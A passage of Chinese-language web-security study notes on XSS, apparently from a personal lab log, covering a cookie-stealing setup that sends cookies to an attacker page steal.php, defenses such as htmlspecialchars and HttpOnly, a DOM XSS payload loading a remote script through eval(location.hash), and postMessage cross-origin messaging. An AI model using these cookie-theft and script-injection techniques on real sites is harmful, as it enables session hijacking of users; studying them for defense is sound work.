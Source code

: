 ```
观察firebug的javascript控制台，看到已拦截跨源请求：同源策略禁止读取位于 ```http://192.168.1.101:808/steal.php``` 的远程资源。（原因：CORS 头缺少 'Access-Control-Allow-Origin'）

因为ajax严格遵从同源策略，当前加载cookie.js的域为```http://192.168.255.151:8081```,所以ajax不能读取不同域```http://192.168.1.101```下的数据，但是cookie已经被发送到了```http://192.168.1.101```域，steal.php已经将偷取到的cookie存放在了数据库中,而且页面没有刷新，很隐蔽。



### xss反制

htmlspecialchars 把预定义的字符&、”、 ’、<、>转换为 HTML 实体，防止浏览器将其作为HTML元素。转义可能引起跨站漏洞的标签

http层做到防护，给cookie设置httponly属性，使cookie不能被javascript读取，才能有效防止用户cookie被盗用的问题



### 19.08.15 dom xss 进阶


#### HTML BOM Browser对象

BOM：Browser Object Model，即浏览器对象模型，提供了独立于内容的、可以与浏览器窗口进行互动的对象结构。

Browser对象：指BOM提供的多个对象，包括：Window、Navigator、Screen、History、Location等。

 [Location 对象](https://www.runoob.com/jsref/prop-loc-hash.html) 

```location.hash```	设置或返回从井号 (#) 开始的 URL（锚）,包含 # 号

例如： ```http://localhost:808/3.jpg#1```

location.hash   :    ```"#1"```

不安全的js 代码：

	eval(location.hash.substr(1))

获取 url 中 # 号后面的部分，不含 # 号。

```#document.write("<script/src=//http://localhost:808/a.js></script>")```

本地测试未成功


**PostMessage 跨域**

[postMessage API](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)

[浅谈跨域威胁与安全](https://www.freebuf.com/articles/web/208672.html)


PostMessage跨域是H5新引入的实现跨域窗口之间的通讯，可以安全地实现windows对象之间的跨域通信。

有一个接受消息的窗口，一般用window.addEventListener(“message”,receiveMessage.false),用以接受消息数据

PostMessage实现流程

1、创建一个页面A，定义一个Postmessage方法

2、创建一个页面B，定义一个window.addEventListener(“message”，function）方法接受来源于Postmessage方法的消息

3、页面A使用Iframe标签包含页面B，触发Postmessage方法即可

```